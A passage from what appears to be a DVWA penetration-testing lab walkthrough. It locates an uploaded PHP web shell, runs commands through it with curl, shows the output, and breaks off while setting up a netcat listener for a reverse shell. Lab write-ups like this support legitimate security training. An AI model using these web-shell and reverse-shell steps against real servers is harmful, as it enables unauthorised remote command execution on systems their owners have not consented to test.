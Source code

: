 **Upload Success Response:**
```html
<div class="success">File uploaded successfully to /hackable/uploads/shell.php</div>
```

### Step 3.4: Web Shell Verification

```bash
# Find where files are uploaded
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.148.100/hackable/uploads/
```

**Directory Listing Output:**
```html
<html>
<head><title>Index of /hackable/uploads</title></head>
<body>
<h1>Index of /hackable/uploads</h1>
<pre>
<a href="shell.php">shell.php</a>     15-Jan-2025 11:05    89
<a href="test.jpg">test.jpg</a>       15-Jan-2025 10:30   2048
</pre>
</body>
</html>
```

**Command Execution Test:**
```bash
┌──(kali㉿kali)-[~]
└─$ curl "http://192.168.148.100/hackable/uploads/shell.php?cmd=id"
```

**Web Shell Output:**
```html
<pre>
uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>
```

**System Information Gathering:**
```bash
┌──(kali㉿kali)-[~]
└─$ curl "http://192.168.148.100/hackable/uploads/shell.php?cmd=uname%20-a"
```

**Output:**
```html
<pre>
Linux debian 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64 GNU/Linux
</pre>
```

### Step 3.5: Getting a Reverse Shell

**Listener Setup:**
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```
